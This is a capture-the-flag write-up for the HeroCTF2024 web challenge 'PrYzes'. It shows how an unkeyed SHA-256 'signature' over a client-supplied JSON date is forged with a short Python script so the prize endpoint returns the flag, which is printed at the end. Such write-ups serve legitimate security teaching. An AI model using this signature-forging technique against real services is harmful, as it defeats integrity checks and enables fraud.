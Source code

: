 ```yaml
---
title: 'CTFs | HeroCTF2024 | Web | PrYzes'
author: bipboup
date: 2024-10-28
categories: ['CTFs', 'HeroCTF2024', 'Web']
tags: ['CTFs', 'HeroCTF2024', 'Web']
permalink: /CTFs/HeroCTF2024/Web/PrYzes
---
```


# PrYzes

![statement](/assets/img/CTFs/HeroCTF2024/Web/PrYzes/statement.png)

In this challenge, we are given an URL. On the home page, there is a button to "claim Prizes". When we press it, it tells us to come back later.

![home_page](/assets/img/CTFs/HeroCTF2024/Web/PrYzes/home_page.png)

Here there are two options. The first one is that the time is checked server-side. In this case, we cannot influence it.
The second option is that the time is provided by the web browser.

Here is the request sent to get the prize.

```text
POST /api/prizes HTTP/1.1
Host: web.heroctf.fr:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
content-type: application/json
x-signature: 70dd8e8beb99014596cf94d119aff411d7ef75c517c65f41e3845dc95293e25e
Content-Length: 22
Origin: http://web.heroctf.fr:5000
Connection: keep-alive
Referer: http://web.heroctf.fr:5000/
Priority: u=0

{
	"date": "28/10/2024"
}
```

If we try to change the date, we are told that the signature is invalid.

![request](/assets/img/CTFs/HeroCTF2024/Web/PrYzes/request.png)

In fact, the x-signature header is the sha256 hash in hexadecimal of the json sent.
Here are the parts of the code that tells us that.

```python
def compute_sha256(data):
	sha256_hash = hashlib.sha256()
	sha256_hash.update(data.encode("utf-8"))
	return sha256_hash.hexdigest()

## Stripped ##

json_data = json.dumps(data)
expected_signature = compute_sha256(json_data)
```

So we just need to change the signature of our request to the sha256 hash of our json.

We can generate the hash using this code:

```python
import hashlib
import sys
import json

def compute_sha256(data):
	sha256_hash = hashlib.sha256()
	sha256_hash.update(data.encode("utf-8"))
	return sha256_hash.hexdigest()

if __name__ == "__main__":
	date = sys.argv[1]
	
	# Create a dictionary to hold the date
	data = {
	"date": date
	}
	
	# Convert the dictionary to a JSON string
	json_data = json.dumps(data)
	  
	hash_date = compute_sha256(json_data)
	print("Hash:", hash_date)
```

```bash
python sign.py "28/10/2150"
Hash: 18963d9e1a478e4d95da6845eab2ba325c104ef3c495659b5f7d9c1168aa672a
```

Now we change the x-signature header to the new value and retrieve the flag.

![flag](/assets/img/CTFs/HeroCTF2024/Web/PrYzes/flag.png)

Flag: Hero{PrYzes_4r3_4m4z1ng!!!9371497139}